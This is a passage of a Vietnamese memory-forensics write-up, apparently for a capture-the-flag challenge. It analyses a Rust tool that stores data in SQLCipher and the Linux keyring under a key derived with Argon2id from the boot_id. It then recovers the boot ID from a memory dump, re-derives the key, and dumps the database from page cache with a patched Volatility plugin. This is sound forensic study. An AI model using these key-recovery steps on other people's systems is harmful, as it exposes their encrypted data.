        .context("Failed to unlock database (wrong key or corrupted)")?;

    Ok(conn)
}

fn init_db(key: &SecureKey) -> Result<()> {
    if Path::new(DB_PATH).exists() {
        fs::remove_file(DB_PATH).context("Failed to scrap existing database")?;
    }

    let conn = Connection::open(DB_PATH)?;
    let key_hex = hex::encode(&*key.0);
    let key_value = format!("x'{}'", key_hex);

    conn.pragma_update(None, "key", &key_value)
        .context("Failed to set encryption key via pragma during init")?;

    conn.execute(
        "CREATE TABLE IF NOT EXISTS records (
            name TEXT PRIMARY KEY,
            value TEXT NOT NULL
        )",
        [],
    )?;

    println!("Database initialized and encrypted with boot-bound key.");
    Ok(())
}

fn main() -> Result<()> {
    let cli = Cli::parse();

    // 1. Get boot_id
    let boot_id = get_boot_id()?;

    // 2. Derive key (costly PKDF)
    let key = derive_key(&boot_id)?;

    match cli.command {
        Commands::Init => {
            init_db(&key)?;
        }
        Commands::Create {
            mut name,
            mut value,
        } => {
            let conn = get_connection(&key)?;
            conn.execute(
                "INSERT INTO records (name, value) VALUES (?1, ?2)",
                [&name, &value],
            )
            .context("Failed to create record")?;
            println!("Record '{}' created.", name);
            name.zeroize();
            value.zeroize();
        }
        Commands::Read { mut name } => {
            let conn = get_connection(&key)?;
            let mut stmt = conn.prepare("SELECT value FROM records WHERE name = ?1")?;
            let mut value: String = stmt
                .query_row([&name], |row| row.get(0))
                .context("Record not found")?;
            println!("Value for '{}': {}", name, value);
            name.zeroize();
            value.zeroize();
        }
        Commands::Update {
            mut name,
            mut value,
        } => {
            let conn = get_connection(&key)?;
            let updated = conn
                .execute(
                    "UPDATE records SET value = ?2 WHERE name = ?1",
                    [&name, &value],
                )
                .context("Failed to update record")?;
            if updated == 0 {
                println!("Record '{}' not found.", name);
            } else {
                println!("Record '{}' updated.", name);
            }
            name.zeroize();
            value.zeroize();
        }
        Commands::Delete { mut name } => {
            let conn = get_connection(&key)?;
            let deleted = conn
                .execute("DELETE FROM records WHERE name = ?1", [&name])
                .context("Failed to delete record")?;
            if deleted == 0 {
                println!("Record '{}' not found.", name);
            } else {
                println!("Record '{}' deleted.", name);
            }
            name.zeroize();
        }
        Commands::List => {
            let conn = get_connection(&key)?;
            let mut stmt = conn.prepare("SELECT name FROM records")?;
            let rows = stmt.query_map([], |row| row.get::<_, String>(0))?;
            println!("Records:");
            for name_result in rows {
                let mut name = name_result?;
                println!(" - {}", name);
                name.zeroize();
            }
        }
        Commands::Keyring { action } => {
            // Initialize the Linux kernel keyring store (keyutils)
            keyring::use_named_store("keyutils")
                .context("Failed to initialize keyutils store. Is libkeyutils-dev installed?")?;

            match action {
                KeyringAction::Set {
                    mut name,
                    mut value,
                } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;

                    // 1. Setup ChaCha20Poly1305 with the derived boot-bound key
                    let cipher = ChaCha20Poly1305::new((&*key.0).into());

                    // 2. Generate a random nonce
                    use chacha20poly1305::aead::OsRng;
                    use chacha20poly1305::aead::rand_core::RngCore;
                    let mut nonce_bytes = [0u8; 12];
                    OsRng.fill_bytes(&mut nonce_bytes);
                    let nonce = Nonce::from_slice(&nonce_bytes);

                    // 3. Encrypt the value
                    let mut ciphertext = cipher
                        .encrypt(nonce, value.as_bytes())
                        .map_err(|e| anyhow::anyhow!("Encryption failed: {}", e))?;

                    // 4. Combine nonce + ciphertext
                    let mut combined = Vec::with_capacity(nonce_bytes.len() + ciphertext.len());
                    combined.extend_from_slice(&nonce_bytes);
                    combined.extend_from_slice(&ciphertext);

                    // 5. Encode in Base64
                    let encoded = general_purpose::STANDARD.encode(&combined);

                    // 6. Store in keyring
                    entry.set_password(&encoded)?;
                    println!("Key '{}' encrypted and set in keyring.", name);

                    name.zeroize();
                    value.zeroize();
                    ciphertext.zeroize();
                    combined.zeroize();
                }
                KeyringAction::Get { mut name } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;
                    let encoded = entry.get_password()?;

                    // 1. Decode from Base64
                    let mut combined = general_purpose::STANDARD
                        .decode(&encoded)
                        .context("Failed to decode Base64 from keyring")?;

                    if combined.len() < 12 {
                        return Err(anyhow::anyhow!("Invalid data in keyring (too short)"));
                    }

                    // 2. Split nonce and ciphertext
                    let nonce_bytes = &combined[..12];
                    let ciphertext = &combined[12..];
                    let nonce = Nonce::from_slice(nonce_bytes);

                    // 3. Setup ChaCha20Poly1305
                    let cipher = ChaCha20Poly1305::new((&*key.0).into());

                    // 4. Decrypt
                    let mut decrypted_bytes = cipher.decrypt(nonce, ciphertext).map_err(|e| {
                        anyhow::anyhow!("Decryption failed (is the boot_id the same?): {}", e)
                    })?;

                    let mut decrypted = String::from_utf8(decrypted_bytes.clone())?;

                    println!("Key '{}' from keyring: {}", name, decrypted);

                    name.zeroize();
                    combined.zeroize();
                    decrypted_bytes.zeroize();
                    decrypted.zeroize();
                }
                KeyringAction::Delete { mut name } => {
                    let entry = keyring_core::Entry::new("serpent", &name)?;
                    entry.delete_credential()?;
                    println!("Key '{}' deleted from keyring.", name);
                    name.zeroize();
                }
            }
        }
    }

    Ok(())
}
```

</details>

#### 1. Phân tích biến đầu file

Ngay đầu source, chương trình khai báo ba hằng số đáng chú ý:
```rust
const DB_PATH: &str = "/tmp/serpent.db";
```

```rust
const BOOT_ID_PATH: &str = "/proc/sys/kernel/random/boot_id";
```

```rust
const SALT: &[u8] = b"serpent_secure_salt_2026";
```

Từ đây có thể xác định:
- database runtime nằm tại /tmp/serpent.db;
- chương trình đọc boot ID của phiên khởi động hiện tại;
- salt dùng để tạo khóa là một giá trị cố định.
Hàm đọc boot ID được triển khai như sau:
```rust
fn get_boot_id() -> Result<String> {
fs::read_to_string(BOOT_ID_PATH)
.context("Failed to read boot_id. This tool requires a Linux system with /proc/sys/kernel/random/boot_id")
.map(|s| s.trim().to_string())
}
```

Chương trình đọc toàn bộ nội dung của /proc/sys/kernel/random/boot_id, sau đó dùng trim() để loại bỏ ký tự xuống dòng. Điều này có nghĩa chuỗi được đưa vào hàm tạo khóa phải có đúng định dạng mà file boot_id trả về; không thể tùy ý bỏ dấu gạch ngang hoặc thay đổi cách biểu diễn UUID.
#### 2. Phân tích hàm tạo khóa

Khóa ứng dụng được tạo trong hàm derive_key():

```rust
fn derive_key(boot_id: &str) -> Result<SecureKey> {
    let params = Params::new(262144, 4, 4, Some(32))
        .map_err(|e| anyhow::anyhow!("Invalid Argon2 params: {}", e))?;

    let argon2 = Argon2::new(
        argon2::Algorithm::Argon2id,
        argon2::Version::V0x13,
        params
    );

    let mut key_bytes = [0u8; 32];

    argon2
        .hash_password_into(
            boot_id.as_bytes(),
            SALT,
            &mut key_bytes
        )
        .map_err(|e| anyhow::anyhow!("KDF failed: {}", e))?;

    Ok(SecureKey(Zeroizing::new(key_bytes)))
}
```

Các tham số của KDF được xác định trực tiếp từ source:

```text
algorithm      = Argon2id
version        = 0x13
password       = chuỗi boot_id
salt           = serpent_secure_salt_2026
memory cost    = 262144 KiB
time cost      = 4
parallelism    = 4
output length  = 32 byte
```
Khóa đầu ra được bọc trong Zeroizing<[u8; 32]>, cho thấy chương trình cố gắng xóa vùng nhớ chứa khóa khi object bị giải phóng. Vì vậy, thay vì phụ thuộc vào việc carve trực tiếp application key từ RAM, hướng ổn định hơn là khôi phục boot_id rồi tự chạy lại đúng phép Argon2id.
Luồng tạo khóa được rút gọn thành:
```text
/proc/sys/kernel/random/boot_id
                  |
                  v
        boot_id dạng chuỗi
                  |
                  +--> salt cố định
                  |
                  v
 Argon2id(m=262144, t=4, p=4)
                  |
                  v
        application key 32 byte
```

Trong hàm main(), hai thao tác này luôn được thực hiện trước khi chương trình xử lý bất kỳ command nào:
```rust
let boot_id = get_boot_id()?;
```

```rust
let key = derive_key(&boot_id)?;
```

Như vậy, mọi nhánh chức năng phía sau đều dùng chung khóa 32 byte được ràng buộc với phiên boot đã tạo ra memory snapshot.
#### 3. Nhánh SQLCipher database

Hàm get_connection() mở database tại DB_PATH, sau đó chuyển khóa 32 byte sang dạng hexadecimal:

```rust
let conn = Connection::open(DB_PATH)?;
let key_hex = hex::encode(&*key.0);
let key_value = format!("x'{}'", key_hex);

conn.pragma_update(None, "key", &key_value)
    .context("Failed to set encryption key via pragma")?;
```

Khóa được truyền trực tiếp cho SQLCipher bằng:

```sql
PRAGMA key = x'<application-key-hex>'
```

Sau đó chương trình thực hiện một truy vấn lên sqlite_master để kiểm tra khóa:

```rust
conn.query_row(
    "SELECT count(*) FROM sqlite_master",
    [],
    |_| Ok(())
)
.context("Failed to unlock database (wrong key or corrupted)")?;
```

Nếu application key sai, database sẽ không thể được đọc như một SQLite database hợp lệ.

Khi khởi tạo database, source tạo bảng:

```rust
conn.execute(
    "CREATE TABLE IF NOT EXISTS records (
        name TEXT PRIMARY KEY,
        value TEXT NOT NULL
    )",
    [],
)?;
```

Do đó, sau khi khôi phục đúng application key, dữ liệu cần kiểm tra nằm trong bảng:

```text
records
├── name
└── value
```

Cần phân biệt hai đường dẫn:

Source chỉ ra database runtime:

```text
/tmp/serpent.db
```

File vừa khôi phục từ source tree:

```text
recovered/secure_cb/serpent_db
```
Hai file này chưa chắc là một. secure_cb/serpent_db có thể là executable được build từ project, còn database SQLCipher thật nằm tại /tmp/serpent.db. Vì vậy cần dùng file kiểm tra trước, không được mặc định file không có phần mở rộng kia là database.
#### 4. Nhánh Linux kernel keyring

Nhánh Keyring sử dụng backend keyutils:

```rust
keyring::use_named_store("keyutils")
    .context("Failed to initialize keyutils store. Is libkeyutils-dev installed?")?;
```

Khi tạo một entry, chương trình dùng:

```rust
let entry = keyring_core::Entry::new("serpent", &name)?;
```

Trong đó:

```text
service = serpent
name    = giá trị người dùng truyền vào
```

Kết hợp điều này với description đã tìm được trước đó:

```text
keyring:part_2@serpent
```

có thể suy ra:

```text
entry name = part_2
service    = serpent
```

#### 5. Cách giá trị keyring được mã hóa

Source khởi tạo ChaCha20Poly1305 bằng chính application key 32 byte:

```rust
let cipher = ChaCha20Poly1305::new((&*key.0).into());
```

Tiếp theo, chương trình sinh nonce ngẫu nhiên dài 12 byte:

```rust
let mut nonce_bytes = [0u8; 12];
OsRng.fill_bytes(&mut nonce_bytes);
let nonce = Nonce::from_slice(&nonce_bytes);
```

Giá trị được mã hóa bằng:

```rust
let mut ciphertext = cipher
    .encrypt(nonce, value.as_bytes())
    .map_err(|e| anyhow::anyhow!("Encryption failed: {}", e))?;
```

Sau đó nonce được ghép trước ciphertext:

```rust
let mut combined =
    Vec::with_capacity(nonce_bytes.len() + ciphertext.len());

combined.extend_from_slice(&nonce_bytes);
combined.extend_from_slice(&ciphertext);
```

Cuối cùng, toàn bộ blob được encode Base64 và lưu vào kernel keyring:

```rust
let encoded = general_purpose::STANDARD.encode(&combined);
entry.set_password(&encoded)?;
```

Định dạng payload được xác định là:

```text
Base64(
    nonce[12]
    ||
    ChaCha20-Poly1305 ciphertext
    ||
    authentication tag[16]
)
```

Tag xác thực được thư viện ChaCha20Poly1305 tự nối vào cuối ciphertext.

Nhánh Get xác nhận cách tách dữ liệu này:

```rust
let mut combined = general_purpose::STANDARD
    .decode(&encoded)?;

let nonce_bytes = &combined[..12];
let ciphertext = &combined[12..];

let decrypted_bytes =
    cipher.decrypt(nonce, ciphertext)?;
```

Tức là 12 byte đầu chắc chắn là nonce, còn toàn bộ phần phía sau được đưa vào hàm giải mã như ciphertext || tag.

### Kết luận từ source

Từ main.rs, có thể xây dựng flow điều tra tiếp theo:
```text
Khôi phục boot_id từ memory.elf
              |
              v
Chạy lại Argon2id với đúng tham số
              |
              v
     application key 32 byte
              |
       +------+------+
       |             |
       v             v
   SQLCipher    ChaCha20Poly1305
/tmp/serpent.db kernel keyring payload
```

Bước tiếp theo là khôi phục đúng boot_id từ memory.elf, vì source cho thấy mọi command đều thực hiện:
```rust
let boot_id = get_boot_id()?;
```

```rust
let key = derive_key(&boot_id)?;
```

và get_boot_id() đọc trực tiếp /proc/sys/kernel/random/boot_id.

## 8. Khôi phục boot ID và application key

Journald thường lưu boot ID dưới dạng field _BOOT_ID=
Boot ID không nằm trong disk image nhưng còn xuất hiện trong systemd journal data của memory snapshot.  lọc `_BOOT_ID=` và thêm dấu gạch theo định dạng UUID:
```bash
LC_ALL=C strings -a -n 8 memory.elf |
grep -F '_BOOT_ID=' |
sort -u |
```

```text
_BOOT_ID=710d1eb09a774c9ca148a8dd002d8755
```



Dùng đúng tham số trong source để tái tạo khóa 32 byte:
```python
from argon2.low_level import hash_secret_raw, Type
boot = b"710d1eb0-9a77-4c9c-a148-a8dd002d8755"
key = hash_secret_raw(
    boot, b"serpent_secure_salt_2026",
    time_cost=4, memory_cost=262144,
    parallelism=4, hash_len=32,
    type=Type.ID, version=19,
)
print(key.hex())
```

```text
4af1975878abc3db67aa68d510f848d277f2854fb5cf9ac92906c23a769e46e4
```



## 9. Khôi phục SQLCipher database từ page cache

Source chỉ ra database thật được mở tại `/tmp/serpent.db`. Vì file này nằm trên tmpfs nên nó không xuất hiện trong disk image đã khôi phục. Tuy nhiên, nội dung của file vẫn có thể còn được giữ trong page cache của kernel tại thời điểm memory dump được tạo. Sử dụng plugin `linux.pagecache.Files` để liệt kê các file mà kernel còn
theo dõi trong page cache, sau đó lọc theo tên `serpent.db`.
```bash
vol3 \
  -s ~/tools/volatility3/symbols \
  -f memory.elf \
  linux.pagecache.Files | grep -F 'serpent.db'
```

Kết quả tìm được một file đúng đường dẫn `/tmp/serpent.db`. cho thấy các page của file vẫn còn nằm trong page cache và file có kích thước 12288 byte.



Kết quả cho thấy `/tmp/serpent.db` có inode number là `181`, còn địa chỉ của cấu trúc inode trong memory là `0x8a72cf7f6a98`.
Giờ cần sử dụng địa chỉ inode để dump file db ra
khỏi page cache.
```bash
vol3 \
  -s ~/tools/volatility3/symbols \
  -f memory.elf \
  -o "./dumped_pagecache" \
  linux.pagecache.InodePages \
  --inode 0x8a72cf7f6a98\
  --dump
```

Nhưng khi chạy command này có lỗi xuất hiện



Lỗi xảy ra bên trong
`inode.get_contents()`, nơi Volatility cố đọc thuộc tính
`page_obj.index` để xác định vị trí của từng page trong file. Tuy nhiên, cấu trúc `page` được mô tả bởi symbol table của kernel này
không có member `index`, nên plugin dừng lại với lỗi:

```text
StructType has no attribute: symbol_table_name1!page.index
```

Để khắc phục mà không sửa trực tiếp Volatility,  copy plugin
`pagecache.py` sang thư mục plugin cục bộ và tạo một phiên bản
`pagecache_fixed.InodePages`. Plugin mới vẫn giữ nguyên cách tìm inode,
duyệt page cache và đọc nội dung page, nhưng thay đổi cách xác định page
index: nếu `page.index` tồn tại thì sử dụng giá trị gốc; nếu không, dùng
thứ tự các page được duyệt làm fallback index.
tạo một thư mục plugin cục bộ rồi copy toàn bộ plugin `pagecache.py` sang file `custom_plugins/pagecache_fixed.py`

```bash
mkdir -p custom_plugins

cp \
  ~/tools/volatility3/lib/python3.12/site-packages/volatility3/framework/plugins/linux/pagecache.py \
  custom_plugins/pagecache_fixed.py
```

sau đó sửa file pagecache_fixed.py bằng bản
<details>
<summary><strong>Bấm để xem plugin `pagecache_fixed.py`</strong></summary>

```python
import math
import logging
import datetime
import time
import tarfile
from dataclasses import dataclass, astuple
from typing import IO, List, Set, Type, Iterable, Tuple, Union
from io import BytesIO
from pathlib import PurePath

from volatility3.framework.constants import architectures
from volatility3.framework import constants, renderers, interfaces, exceptions
from volatility3.framework.renderers import format_hints
from volatility3.framework.interfaces import plugins
from volatility3.framework.configuration import requirements
from volatility3.plugins import timeliner
from volatility3.plugins.linux import mountinfo

vollog = logging.getLogger(__name__)

@dataclass
class InodeUser:
    superblock_addr: int
    mountpoint: str
    device: str
    inode_num: int
    inode_addr: int
    type: str
    inode_pages: int
    cached_pages: int
    file_mode: str
    access_time: str
    modification_time: str
    change_time: str
    path: str
    inode_size: int

    @classmethod
    def format_symlink(cls, symlink_source: str, symlink_dest: str) -> str:
        return f"{symlink_source} -> {symlink_dest}"

@dataclass
class InodeInternal:
    superblock: interfaces.objects.ObjectInterface
    mountpoint: str
    inode: interfaces.objects.ObjectInterface
    path: str

    def to_user(
        self, kernel_layer: interfaces.layers.TranslationLayerInterface
    ) -> InodeUser:
        superblock_addr = self.superblock.vol.offset
        device = f"{self.superblock.major}:{self.superblock.minor}"
        inode_num = int(self.inode.i_ino)
        inode_addr = self.inode.vol.offset
        inode_type = self.inode.get_inode_type() or renderers.UnparsableValue()

        inode_pages = int(math.ceil(self.inode.i_size / float(kernel_layer.page_size)))
        cached_pages = int(self.inode.i_mapping.nrpages)
        file_mode = self.inode.get_file_mode()
        access_time_dt = self.inode.get_access_time()
        modification_time_dt = self.inode.get_modification_time()
        change_time_dt = self.inode.get_change_time()
        inode_size = int(self.inode.i_size)

        inode_user = InodeUser(
            superblock_addr=superblock_addr,
            mountpoint=self.mountpoint,
            device=device,
            inode_num=inode_num,
            inode_addr=inode_addr,
            type=inode_type,
            inode_pages=inode_pages,
            cached_pages=cached_pages,
            file_mode=file_mode,
            access_time=access_time_dt,
            modification_time=modification_time_dt,
            change_time=change_time_dt,
            path=self.path,
            inode_size=inode_size,
        )
        return inode_user

class Files(plugins.PluginInterface, timeliner.TimeLinerInterface):
    _required_framework_version = (2, 0, 0)
    _version = (1, 1, 0)

    @classmethod
    def get_requirements(cls) -> List[interfaces.configuration.RequirementInterface]:
        return [
            requirements.ModuleRequirement(
                name="kernel",
                description="Linux kernel",
                architectures=architectures.LINUX_ARCHS,
            ),
            requirements.VersionRequirement(
                name="mountinfo", component=mountinfo.MountInfo, version=(1, 2, 0)
            ),
            requirements.VersionRequirement(
                name="timeliner",
                component=timeliner.TimeLinerInterface,
                version=(1, 0, 0),
            ),
            requirements.ListRequirement(
                name="type",
                description="List of space-separated file type filters i.e. --type REG DIR",
                element_type=str,
                optional=True,
            ),
            requirements.StringRequirement(
                name="find",
                description="Filename (full path) to find",
                optional=True,
            ),
        ]

    @staticmethod
    def _follow_symlink(
        inode: interfaces.objects.ObjectInterface,
        symlink_path: str,
    ) -> str:
        if (
            inode
            and inode.is_link
            and inode.has_member("i_link")
            and inode.i_link
            and inode.i_link.is_readable()
        ):
            symlink_dest = inode.i_link.dereference().cast(
                "string", max_length=255, encoding="utf-8", errors="replace"
            )
            symlink_path = InodeUser.format_symlink(symlink_path, symlink_dest)

        return symlink_path

    @classmethod
    def _walk_dentry(
        cls,
        seen_dentries: Set[int],
        root_dentry: interfaces.objects.ObjectInterface,
        parent_dir: str,
    ):
        for dentry in root_dentry.get_subdirs():
            dentry_addr = dentry.vol.offset

            if dentry_addr == root_dentry.vol.offset:
                continue

            if dentry_addr in seen_dentries:
                continue

            seen_dentries.add(dentry_addr)

            inode_ptr = dentry.d_inode
            if not (inode_ptr and inode_ptr.is_readable()):
                continue

            inode = inode_ptr.dereference()
            if not inode.is_valid():
                continue

            if dentry.d_name.name:
                basename = dentry.d_name.name_as_str()

                file_path = parent_dir + "/" + basename
            else:
                continue

            yield file_path, dentry

            if inode.is_dir:
                yield from cls._walk_dentry(seen_dentries, dentry, parent_dir=file_path)

    @classmethod
    def get_inodes(
        cls,
        context: interfaces.context.ContextInterface,
        vmlinux_module_name: str,
        follow_symlinks: bool = True,
    ) -> Iterable[InodeInternal]:
        superblocks_iter = mountinfo.MountInfo.get_superblocks(
            context=context,
            vmlinux_module_name=vmlinux_module_name,
        )

        seen_inodes = set()
        seen_dentries = set()
        for superblock, mountpoint in superblocks_iter:
            parent_dir = "" if mountpoint == "/" else mountpoint

            root_dentry_ptr = superblock.s_root
            if not root_dentry_ptr:
                continue

            root_dentry = root_dentry_ptr.dereference()

            if not root_dentry.is_root():
                continue

            root_inode_ptr = root_dentry.d_inode
            if not (root_inode_ptr and root_inode_ptr.is_readable()):
                continue

            root_inode = root_inode_ptr.dereference()
            if not root_inode.is_valid():
                continue

            if not (root_inode.i_mapping and root_inode.i_mapping.is_readable()):

                continue

            if root_inode_ptr in seen_inodes:
                continue

            seen_inodes.add(int(root_inode_ptr))

            root_path = mountpoint

            inode_in = InodeInternal(
                superblock=superblock,
                mountpoint=mountpoint,
                inode=root_inode,
                path=root_path,
            )
            yield inode_in

            for file_path, file_dentry in cls._walk_dentry(
                seen_dentries, root_dentry, parent_dir
            ):
                if not file_dentry:
                    continue

                file_inode_ptr = file_dentry.d_inode
                if not (file_inode_ptr and file_inode_ptr.is_readable()):
                    continue

                file_inode = file_inode_ptr.dereference()
                if not file_inode.is_valid():
                    continue

                if not (file_inode.i_mapping and file_inode.i_mapping.is_readable()):

                    continue

                if file_inode_ptr in seen_inodes:
                    continue
                seen_inodes.add(int(file_inode_ptr))

                if follow_symlinks:
                    file_path = cls._follow_symlink(file_inode_ptr, file_path)
                inode_in = InodeInternal(
                    superblock=superblock,
                    mountpoint=mountpoint,
                    inode=file_inode,
                    path=file_path,
                )
                yield inode_in

    def _generator(self):
        vmlinux_module_name = self.config["kernel"]
        vmlinux = self.context.modules[vmlinux_module_name]
        vmlinux_layer = self.context.layers[vmlinux.layer_name]

        inodes_iter = self.get_inodes(
            context=self.context,
            vmlinux_module_name=vmlinux_module_name,
        )

        types_filter = self.config["type"]
        for inode_in in inodes_iter:
            if types_filter and inode_in.inode.get_inode_type() not in types_filter:
                continue

            if self.config["find"]:
                if inode_in.path == self.config["find"]:
                    inode_out = inode_in.to_user(vmlinux_layer)

                    yield (0, astuple(inode_out))
                    break
            else:
                inode_out = inode_in.to_user(vmlinux_layer)

                yield (0, astuple(inode_out))

    def generate_timeline(self):

        vmlinux_module_name = self.config["kernel"]
        vmlinux = self.context.modules[vmlinux_module_name]
        vmlinux_layer = self.context.layers[vmlinux.layer_name]

        inodes_iter = self.get_inodes(
            context=self.context,
            vmlinux_module_name=vmlinux_module_name,
        )

        for inode_in in inodes_iter:
            inode_out = inode_in.to_user(vmlinux_layer)
            description = f"Cached Inode for {inode_out.path}"
            yield description, timeliner.TimeLinerType.ACCESSED, inode_out.access_time
            yield (
                description,
                timeliner.TimeLinerType.MODIFIED,
                inode_out.modification_time,
            )
            yield description, timeliner.TimeLinerType.CHANGED, inode_out.change_time

    @classmethod
    def format_fields_with_headers(cls, headers, generator):

        for level, fields in generator:
            formatted_fields = []
            for header, field in zip(headers, fields):
                header_type = header[1]

                if isinstance(
                    field, (header_type, interfaces.renderers.BaseAbsentValue)
                ):
                    formatted_field = field
                else:
                    formatted_field = header_type(field)

                formatted_fields.append(formatted_field)
            yield level, formatted_fields

    def run(self):
        headers = [
            ("SuperblockAddr", format_hints.Hex),
            ("MountPoint", str),
            ("Device", str),
            ("InodeNum", int),
            ("InodeAddr", format_hints.Hex),
            ("FileType", str),
            ("InodePages", int),
            ("CachedPages", int),
            ("FileMode", str),
            ("AccessTime", datetime.datetime),
            ("ModificationTime", datetime.datetime),
            ("ChangeTime", datetime.datetime),
            ("FilePath", str),
            ("InodeSize", int),
        ]

        return renderers.TreeGrid(
            headers, self.format_fields_with_headers(headers, self._generator())
        )

class InodePages(plugins.PluginInterface):
    _required_framework_version = (2, 0, 0)
    _version = (3, 0, 1)

    @classmethod
    def get_requirements(cls) -> List[interfaces.configuration.RequirementInterface]:
        return [
            requirements.ModuleRequirement(
                name="kernel",
                description="Linux kernel",
                architectures=architectures.LINUX_ARCHS,
            ),
            requirements.VersionRequirement(
                name="files",
                component=Files,
                version=(1, 0, 0),
            ),
            requirements.StringRequirement(
                name="find",
                description="Filename (full path) to find",
                optional=True,
            ),
            requirements.IntRequirement(
                name="inode",
                description="Inode address",
                optional=True,
            ),
            requirements.BooleanRequirement(
                name="dump",
                description="Extract inode content",
                default=False,
                optional=True,
            ),
        ]

    @staticmethod
    def _page_has_index(
        page_obj: interfaces.objects.ObjectInterface,
    ) -> bool:

        try:
            return page_obj.has_member("index")
        except AttributeError:
            return False

    @classmethod
    def _iter_inode_pages(
        cls,
        inode: interfaces.objects.ObjectInterface,
        page_size: int,
    ):
        try:
            pages = list(inode.get_pages())
        except exceptions.LinuxPageCacheException:
            vollog.error(
                "Unable to enumerate cached pages for inode at 0x%x",
                inode.vol.offset,
            )
            return

        inode_size = int(inode.i_size)
        inode_pages = int(math.ceil(inode_size / float(page_size)))
        cached_pages = int(inode.i_mapping.nrpages)

        missing_index = any(
            not cls._page_has_index(page_obj)
            for page_obj in pages
        )

        if missing_index:
            if not (
                len(pages) == cached_pages
                and cached_pages == inode_pages
            ):
                vollog.error(
                    "struct page.index is unavailable and the file is not "
                    "fully cached: inode_pages=%d cached_pages=%d "
                    "enumerated_pages=%d",
                    inode_pages,
                    cached_pages,
                    len(pages),
                )
                return

            vollog.warning(
                "struct page.index is unavailable; inode 0x%x is fully "
                "cached, using page-cache traversal order as indexes",
                inode.vol.offset,
            )

        for fallback_index, page_obj in enumerate(pages):
            if page_obj.mapping != inode.i_mapping:
                vollog.warning(
                    "Cached page at 0x%x has a mismatched address space "
                    "with inode 0x%x; skipping page",
                    page_obj.vol.offset,
                    inode.vol.offset,
                )
                continue

            if missing_index:
                page_index = fallback_index
            else:
                try:
                    page_index = int(page_obj.index)
                except AttributeError:
                    vollog.error(
                        "page.index disappeared while processing page 0x%x",
                        page_obj.vol.offset,
                    )
                    return

            page_content = page_obj.get_content()
            if not page_content:
                vollog.warning(
                    "Unable to read content of cached page at 0x%x",
                    page_obj.vol.offset,
                )
                continue

            yield page_index, page_obj, page_content

    @classmethod
    def write_inode_content_to_file(
        cls,
        context: interfaces.context.ContextInterface,
        layer_name: str,
        inode: interfaces.objects.ObjectInterface,
        filename: str,
        open_method: Type[interfaces.plugins.FileHandlerInterface],
    ) -> None:

        try:
            with open_method(filename) as file_obj:
                cls.write_inode_content_to_stream(
                    context,
                    layer_name,
                    inode,
                    file_obj,
                )
        except OSError as error:
            vollog.error(
                "Unable to write to file (%s): %s",
                filename,
                error,
            )

    @classmethod
    def write_inode_content_to_stream(
        cls,
        context: interfaces.context.ContextInterface,
        layer_name: str,
        inode: interfaces.objects.ObjectInterface,
        stream: IO,
    ) -> None:
        if not inode.is_reg:
            vollog.error("The inode is not a regular file")
            return

        layer = context.layers[layer_name]
        inode_size = int(inode.i_size)
        stream_initialized = False

        try:
            for page_idx, _, page_content in cls._iter_inode_pages(
                inode,
                layer.page_size,
            ):
                current_fp = page_idx * layer.page_size

                if current_fp >= inode_size:
                    vollog.error(
                        "Page out of file bounds: inode 0x%x, "
                        "inode size %d, page index %d",
                        inode.vol.offset,
                        inode_size,
                        page_idx,
                    )
                    continue

                max_length = inode_size - current_fp
                page_bytes_len = min(
                    max_length,
                    len(page_content),
                )

                if page_bytes_len <= 0:
                    continue

                page_bytes = page_content[:page_bytes_len]

                if not stream_initialized:
                    stream.truncate(inode_size)
                    stream_initialized = True

                stream.seek(current_fp)
                stream.write(page_bytes)

        except exceptions.LinuxPageCacheException:
            vollog.error(
                "Error dumping cached pages for inode at 0x%x",
                inode.vol.offset,
            )

    def _generate_inode_fields(
        self,
        inode: interfaces.objects.ObjectInterface,
        vmlinux_layer: interfaces.layers.TranslationLayerInterface,
        filename: Union[renderers.NotApplicableValue, str],
    ) -> Iterable[Tuple[int, int, int, int, bool, str]]:
        inode_size = int(inode.i_size)

        try:
            for page_index, page_obj, _ in self._iter_inode_pages(
                inode,
                vmlinux_layer.page_size,
            ):
                page_vaddr = page_obj.vol.offset
                page_paddr = page_obj.to_paddr()
                page_mapping_addr = page_obj.mapping
                page_file_offset = (
                    page_index * vmlinux_layer.page_size
                )

                dump_safe = bool(
                    page_file_offset < inode_size
                    and page_mapping_addr
                    and page_mapping_addr.is_readable()
                )

                try:
                    page_flags_list = page_obj.get_flags_list()
                    page_flags = ",".join(
                        flag.replace("PG_", "")
                        for flag in page_flags_list
                    )
                except (TypeError, AttributeError, ValueError):
                    page_flags = "<unsupported>"

                fields = (
                    page_vaddr,
                    page_paddr,
                    page_mapping_addr,
                    page_index,
                    dump_safe,
                    page_flags,
                    filename,
                )

                yield 0, fields

        except exceptions.LinuxPageCacheException:
            vollog.warning(
                "Page cache for inode at 0x%x is corrupt",
                inode.vol.offset,
            )

    def _generator(self):
        vmlinux_module_name = self.config["kernel"]
        vmlinux = self.context.modules[vmlinux_module_name]
        vmlinux_layer = self.context.layers[vmlinux.layer_name]

        if self.config["inode"] and self.config["find"]:
            vollog.error(
                "Cannot use --inode and --find simultaneously"
            )
            return

        if self.config["find"]:
            inodes_iter = Files.get_inodes(
                context=self.context,
                vmlinux_module_name=vmlinux_module_name,
            )

            for inode_in in inodes_iter:
                if inode_in.path == self.config["find"]:
                    inode = inode_in.inode
                    break
            else:
                vollog.error(
                    "Unable to find inode with path %s",
                    self.config["find"],
                )
                return

        elif self.config["inode"]:
            inode = vmlinux.object(
                "inode",
                self.config["inode"],
                absolute=True,
            )

        else:
            vollog.error(
                "You must use either --inode or --find"
            )
            return

        if not inode.is_valid():
            vollog.error(
                "Invalid inode at 0x%x",
                inode.vol.offset,
            )
            return

        if not inode.is_reg:
            vollog.error("The inode is not a regular file")
            return

        filename = renderers.NotApplicableValue()

        if self.config["dump"]:
            open_method = self.open
            inode_address = inode.vol.offset
            filename = open_method.sanitize_filename(
                f"inode_0x{inode_address:x}.dmp"
            )

            vollog.info(
                "[*] Writing inode at 0x%x to '%s'",
                inode_address,
                filename,
            )

            self.write_inode_content_to_file(
                self.context,
                vmlinux_layer.name,
                inode,
                filename,
                open_method,
            )

        yield from self._generate_inode_fields(
            inode,
            vmlinux_layer,
            filename,
        )

    def run(self):
        headers = [
            ("PageVAddr", format_hints.Hex),
            ("PagePAddr", format_hints.Hex),
            ("MappingAddr", format_hints.Hex),
            ("Index", int),
            ("DumpSafe", bool),
            ("Flags", str),
            ("Output File", str),
        ]

        return renderers.TreeGrid(
            headers,
            Files.format_fields_with_headers(
                headers,
                self._generator(),
            ),
        )

